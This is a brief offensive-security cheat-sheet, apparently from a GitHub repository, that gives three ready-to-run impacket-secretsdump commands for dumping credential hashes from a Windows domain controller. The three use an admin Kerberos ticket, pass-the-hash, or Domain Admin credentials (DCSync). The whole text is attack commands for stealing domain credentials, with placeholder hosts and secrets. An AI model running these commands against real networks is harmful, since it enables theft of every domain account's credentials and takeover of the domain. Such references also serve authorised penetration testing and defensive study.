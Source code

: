 ## Use this impacket module to dump hashes from the local machine, depending the context of usage

#### 1) impacket-secretsdump -k -no-pass DC.DOMAIN.COM (Use this if you have an admin TGT)

#### 2) impacket-secretsdump DC.DOMAIN.COM -hashes 'LM_HASH:NTLM_HASH' (Do DC sync via PtH)

#### 3) impacket-secretsdump 'DOMAIN.COM/administrator:PASSWORD'@DC_IP (Do DC Sync with Domain Admin credentials)
